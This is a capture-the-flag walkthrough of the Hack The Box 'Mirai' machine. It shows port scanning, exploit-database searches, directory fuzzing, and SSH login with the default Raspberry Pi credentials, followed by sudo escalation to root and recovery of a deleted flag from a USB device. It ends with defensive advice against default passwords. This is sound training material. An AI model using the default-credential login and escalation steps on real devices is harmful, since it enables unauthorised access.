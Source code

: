 # Mirai

First of, the name of the box is a reference to the Mirai worm. Which was a worm that created a huge botnet. Another reason it is well known is that it only used around 60 passwords. And still amassed a huge number of bots in its network. You can find the source code here: https://github.com/jgamblin/Mirai-Source-Code 

So let’s begin:

```
kali@kali:~/htb/Mirai$ sudo nmap -sC -sV  10.129.63.131
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 09:34 EST
Nmap scan report for 10.129.63.131
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.86 seconds
```

Webpage is empty. I run searchsploit:


```
kali@kali:~/htb/Mirai$ searchsploit lighttpd 
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
lighttpd - Denial of Service (PoC)                                                                                 | linux/dos/18295.txt
Lighttpd 1.4.15 - Multiple Code Execution / Denial of Service / Information Disclosure Vulnerabilities             | windows/remote/30322.rb
Lighttpd 1.4.16 - FastCGI Header Overflow Remote Command Execution                                                 | multiple/remote/4391.c
Lighttpd 1.4.17 - FastCGI Header Overflow Arbitrary Code Execution                                                 | linux/remote/4437.c
lighttpd 1.4.31 - Denial of Service (PoC)                                                                          | linux/dos/22902.sh
Lighttpd 1.4.x - mod_userdir Information Disclosure                                                                | linux/remote/31396.txt
lighttpd 1.4/1.5 - Slow Request Handling Remote Denial of Service                                                  | linux/dos/33591.sh
Lighttpd < 1.4.23 (BSD/Solaris) - Source Code Disclosure                                                           | multiple/remote/8786.txt
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I try wfuzz to see if we can find anything on the webpage:

``` 
sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.63.131/FUZZ
```

And while that runs I try some stuff. /login, /admin etc.

It finds /admin, but it’s empty. It also finds /versions, which is a file that just lists some versions.


I then decide to check the dnsmasq version.
```
kali@kali:~/htb/Mirai$ searchsploit dnsmasq 2.76
-------------------------------------- ---------------------------------
 Exploit Title                        |  Path
-------------------------------------- ---------------------------------
Dnsmasq < 2.78 - 2-byte Heap Overflow | multiple/dos/42941.py
Dnsmasq < 2.78 - Heap Overflow        | multiple/dos/42942.py
Dnsmasq < 2.78 - Information Leak     | multiple/dos/42944.py
Dnsmasq < 2.78 - Integer Underflow    | multiple/dos/42946.py
Dnsmasq < 2.78 - Lack of free() Denia | multiple/dos/42945.py
Dnsmasq < 2.78 - Stack Overflow       | multiple/dos/42943.py
-------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Mirai$ 
```

Also, this is a domain service, so let’s add this to our /etc/hosts file. 

I then go to http://mirai.htb/. No access. I  try http://mirai.htb/admin/. And we get an admin page. For a Raspberry pi. The framework is called Pi-hole. I google this and the default user:password is pi:raspberry.

There is a login option at http://mirai.htb/admin/index.php?login 
Only thing needed is a password. So probably not the pi:raspberry login, but I try anyways.. Didn’t work. Is this where the Mirai passwords are gonna be used?

I use `locate mirai` to locate the mirai password wordlist. But can’t get hydra to work on this website. 

So I try out ssh:

```
kali@kali:~/htb/Mirai$ ssh pi@mirai.htb
pi@mirai.htb's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~ $ 

```
This is related to Mirai, as it uses default passwords. Although not the exact passwords Mirai uses.

We can also see that user pi is sudo.

```
pi@raspberrypi:/ $ sudo su
root@raspberrypi:/# whoami
root
```

Normally, this would be it. But the owner of the system lost his flag!

```
root@raspberrypi:/# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Ok, lets check the USB stick.

```
root@raspberrypi:/# cd media
root@raspberrypi:/media# ls
usbstick
root@raspberrypi:/media# cd usb
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Ok, so we can assume that the data is probably still on the USB drive, deleted, but not overwritten yet.

```
root@raspberrypi:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.7G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.7G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
root@raspberrypi:/# 
```
Df shows information about the file system on which each file resides. And -h just makes it human readable.


Here we can see that `/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick` /dev/sdb is the location of the usbstick on the filesystem. So let’s try a simple strings command to see what exists here.

```
root@raspberrypi:/# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/# 
```

That looks like a flag to me. If we wanted to only search for the flag we could filter our strings a bit:

```
root@raspberrypi:/# strings /dev/sdb | grep -oP '\w{32}'
3d3e483143ff12ec505d026fa13e020b
root@raspberrypi:/# 
```

Grep:

-o = only matching

-P = Perl regular expression

-w = matches the word characters alphanumeric + underscore `_`.

{32} = 32 characters long. Which all flags are.




## Comparing myself to the official writeup:

The official writeup pretty much used the same method, but highlighted an important part of recovering the root.txt flag.

Using `sudo dcfldd if=/dev/sdb of=/home/pi/usb.dd` will copy the USBstick contents to a raw file. This ensures that the flag will not be overwritten. This is not necessarily needed on HTB, as I can just reset the box if I make a mistake. But that might not always be the case in reality. Ensuring volatile data is saved should be done in realistic situations.

## How to stop this exploit:

Don’t use default passwords. They are publicly available.
